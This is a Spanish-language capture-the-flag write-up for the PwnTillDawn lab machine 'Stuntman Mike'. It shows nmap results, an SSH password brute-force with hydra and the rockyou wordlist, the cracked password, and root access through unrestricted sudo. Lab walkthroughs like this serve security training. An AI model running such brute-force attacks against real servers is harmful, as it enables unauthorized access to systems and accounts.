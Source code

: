 # WRITEUP Stuntman Mike

### ESCANEO
#### 10.150.150.166	Linux	Easy
```
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```

Al escanear la ip, podemos ver que solamente hay 2 puertos abiertos. El servicio ssh y posiblemente splunk (8089)


### ENUMERACIÓN

Al identificar las versiones de esos servicios nos muestra lo siguiente:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http syn-ack ttl 63 Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b a4c7 ea97 ebc8 7f73 310f e279 3eb2
| SHA-1: 6bd8 1aeb bb06 78e8 33ff 3419 27c9 6b03 4d72 44c1

```

al ingresar por el navegador al puerto 8089 vemos la version de splunk y al parecer no hay vulnerabilidades publicas para dicha versión.

![alt text](img/1.PNG)

Sólo nos queda el servicio ssh, pero su versión tampoco tiene vulnerabilidades publicas criticas. Lo único que nos queda es realizar fuerza bruta y ver si tenemos suerte.

### EXPLOTACIÓN 

Al intentar ingresar como root al servicio ssh, nos percatamos que hay un banner personalizado y con ella viene una flag. Lo cual me hace pensar que el camino es por ahí. 
Si prestamos atención, hay un usuario potencial que podemos utilizar para realizar bruteforce.

![alt text](img/2.PNG)

Para ello utilizaré hydra y como diccionario utilizaré rockyou junto al usuario Mike, ya que en el banner viene escrito algo como "You are attempting to login to stuntman mike's server"

`hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166`
 
 Tras realizar la fuerza bruta encontramos una contraseña, "babygirl" que nos da acceso por ssh.

![alt text](img/3.PNG)

La siguiente flag la encontramos en el mismo directorio.

```
mike@stuntmanmike:~$ pwd
/home/mike
mike@stuntmanmike:~$ ls
FLAG36
```


Después para elevar privilegios, basta con ejecutar sudo -l y podemos ver que el usuario mike está agregado a los sudoers del sistema. Por lo que podemos acceder directamente al directorio /root/ y encontrar la ultima flag.
```
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: babygirl
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$ sudo su
root@stuntmanmike:/home/mike# cd /root
root@stuntmanmike:~# ls
FLAG37
```

Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
